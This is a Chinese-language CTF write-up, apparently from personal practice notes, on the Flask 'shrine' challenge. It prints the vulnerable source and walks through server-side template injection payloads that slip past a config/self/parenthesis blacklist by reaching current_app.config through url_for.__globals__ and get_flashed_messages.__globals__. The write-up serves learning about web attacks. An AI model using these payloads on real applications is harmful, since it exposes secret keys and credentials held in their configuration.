 考察知识点：

1.模板注入（ssit)

2.python沙箱逃逸

url_for和get_flashed_messages包含current_app全局变量



1.代码审计

```javascript
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['`{`{`%` set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)

```



2.发现使用jinjia模板引擎

```javascript
    return flask.render_template_string(safe_jinja(shrine))
```

考虑模板注入。



3.shrine路由下尝试模板注入

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/5FB53FC720F344DCA88FFAD39542EEB4clipboard.png)

确定存在模板注入



4.源代码显示，config中存在flag

```javascript
app.config['FLAG'] = os.environ.pop('FLAG')
```



但是直接输入config,内容会被替换为none

```javascript
 blacklist = ['config', 'self']
        return ''.join(['`{`{`%` set {}=None%}}'.format(c) for c in blacklist]) + s
```



5.此时需要逃逸



如果没有黑名单的时候，我们可以使用config，传入 config，或者使用self传入 {{self.__dict__}}

 

当config,self,()都被过滤的时候，为了获取讯息，我们需要读取一些例如current_app这样的全局变量。

看了其他师傅的WP，python的沙箱逃逸这里的方法是利用python对象之间的引用关系来调用被禁用的函数对象。

这里有两个函数包含了current_app全局变量，url_for和get_flashed_messages

 

官方文档在https://flask.palletsprojects.com/en/1.0.x/api/#flask.get_flashed_messages

https://flask.palletsprojects.com/en/1.0.x/api/#flask.url_forbaobaoer.cn/archives/656/python-b2e7b180e9b880e793

 

我们注入{url_for.__globals__}得到

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/17A2A8EA40014B25A2793D34B008B69384-421565028.png)

 

 

 current_app是当前使用的app，继续注入当前app的config

{url_for.__globals__['current_app'].config}

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/CEB4E60659EC4EEF95845826BA2ABB482-1559116334.png)

 

 

 可以看到get flag

get_flashed_messages注入的方法同理



# 6.get_flashed_messages注入

## 6.1 get_flashed_messages获取全局变量

```javascript
/shrine/{{get_flashed_messages.__globals__}}
```



## 6.2 获取current_app的内容

```javascript
/shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/4813E2001F9A4F2A829A60A2C1E31C4Eclipboard.png)

